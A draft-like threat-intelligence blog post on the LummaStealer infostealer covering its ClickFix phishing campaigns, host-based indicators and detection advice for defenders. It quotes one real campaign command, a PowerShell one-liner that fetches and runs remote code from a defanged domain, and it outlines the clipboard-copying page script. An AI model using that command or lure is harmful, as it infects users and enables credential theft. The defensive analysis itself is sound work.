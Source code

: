 ```yaml
---
layout: post
title:  "LummaStealer"
date:   2025-06-16 21:00:00 +1000
categories: threat intel
---
```


<style>
  body { font-size: 13px; }
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

### Overview

LummaStealer C++ prominent in-memory infostealer. Malware-as-a-service operation developed by "Shamel".

Lumma has been prominent since 2022 when it first appeared for sale. Up until May 2025 it has been smooth sailing. In May Microsoft blocked 2,300 domains related to Lumma's infra. Furthermore the DOJ seized Lumma's control panel. Microsoft identified that over 390,000 Windows host we're compromised at the time of the blocking. 

Perhaps Lumma's best feature. Is the ability for anyone and everyone to purchase logs that are stolen. So you buy Lumma and you have a direct place to steal the stolen logs. All you have to do is get it on a host in the first place.

(INSERT SCREENSHOT)

### LummaStealer Recent Campaigns
Clickfix is the new phishing. Recent Lumma campaigns have compromised websites and injected malicious code that instructs users to run commands on there host.

An example of a clickfix command used in an actual Lumma campaign is the following
```iwr ct-humancheck[.]info|iex```
Breakdown of flags
- iwr (Invoke Web Request)
- iex (Invoke Expression). Means run code from the prior argument (domain)

Now this paired with a clickfix lure like this

(INSERT SCREENSHOT)

Would be pretty darn tempting. Especially if you we're perhaps paying for something/booking a table/accessing a website. You are just verifying you are human. Right?

The snazzy part about clickfix attacks is that the malicious .js embedded in the website can silently copy commands to your hosts clipboard.

- Function copyToClipboard copies specified command to hosts clipboard
- EventListener triggers copyToClipboard function when user clicks on the page

(INSERT SCREENSHOT)

### LummaStealer IOCs (22nd July 2025)
As LummaStealer is malware-as-a-service each group/individual that purchases Lumma will have there own ways for distributing the software. However, despite this there are some clear initial access TTPs that are consistent with Lumma. Furthermore, Lumma's behaviour when executed is also quite consistent. Although files created may be randomly generated with different hashes and IOCs are unscanned. The processes it chooses to inject in and the directories that it creates files are the same.

Additionally. What makes Lumma and other MaaS operations so expensive is that they guarantee that hash is unrecognisable. Therefore, IOCs are unique to the campaign and quite often the machine. Infrastructure is also provided by Lumma. There are dedicated Lumma C2 servers that people who purchase the malware use to communicate with hosts. These are regularly changing and are managed by Lumma. Because of this, maintaining an updated list of Lumma C2 IOCs is vitally important. Furthermore, creating YARA rules that detect this is even better.

Lastly I'll add that going back and tracking old malware analysis samples and reports for Lumma I observed that the behaviour of the malware changes a lot. Calls different dlls, Windows APIs and uses different compilers. So whilst this might be relevant now, in a day it may not be.

Off track but a person at Mandiant told me they have observed APTs regularly querying VirusTotal to check whether a hash been scanned. As it's often the first step to an investigation, it's a great way to determine whether you've been detected in an environment.

Although Network IOCs are unique to each campaign, I'll still add them in. I'm not certain, but I'm highly confident Lumma would shuffle these regularly.

Host-based IOCs
- Tasklist
- Findstr
- Process injection (Particularly svchost.exe and explorer.exe)
- Masquerading as PowerShell
- Cvtres.exe creating malicious .tmps from the Temp directory in binary code (AppData\Local\Temp)
- Csc.exe creating malicious .dlls from the Temp directory in binary code (AppData\Local\Temp)
- Csc.exe executing suspicious .cmdline files from the Temp directory (AppData\Local\Temp)
- Startup folder persistence (AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\App.url)

Here's a list of Lumma Network IOCs from May 2025 provided by Bitsight.
(Bitsight Lumma Stealer Network IOCs)[https://raw.githubusercontent.com/bitsight-research/threat_research/refs/heads/main/lumma/lumma_iocs.csv]

### Data Exfilitration and C2 Channels
Telegram channels.

### How to detect Lumma?
Search for initial access TTPs.
- Clipboard events in EDR logs. Modern EDRs will record these events and often the process that copied to clipboard. 
- Git repos that users have pulled. Process creation events as a result of the command ```git pull``` and ```git clone```. Sort by repo. Biggest to smallest.

But having said all that. Here is some basic techniques to apply to an enterprise network to help detect/prevent Lumma. And all decent malware to be honest.
- SIEM alert for newly registered domains
- SIEM alert for process injection
- SIEM alert for abnormal processes reaching out to external domains
- SIEM alert for abnormal startup processes/reg keys
- Disable powershell for non-administrative users
- Do not whitelist password manager browser extensions
- Disable auto-saving passwords in browser
- Disable downloading exectuables from untrusted websites
- Application whitelisting
- Deploy EDR tools with behavioural analysis capabilities
- Educate users on clickfix attacks and malvertising
- Deploy BDR solution (SquareX)